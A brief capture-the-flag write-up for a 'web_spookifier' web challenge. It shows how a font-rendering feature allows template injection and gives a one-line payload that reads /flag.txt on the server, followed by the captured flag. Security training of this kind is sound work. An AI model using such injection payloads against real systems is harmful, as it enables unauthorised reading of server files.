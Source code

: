 # web_spookifier (2)

The website return our input with 4 differents fonts. \
The first three fonts are spooky fonts, which can only translate alphabetic chars. \
But the last font is the normal font, we also have numeric and some special characters (including `$`, quotes, and curly brackets...)

We try to inject some code and it works !

Payload:
```python
${open("/flag.txt").read()}
```

Result:
```
HTB{t3mpl4t3_1nj3ct10n_1s_$p00ky!!}
```
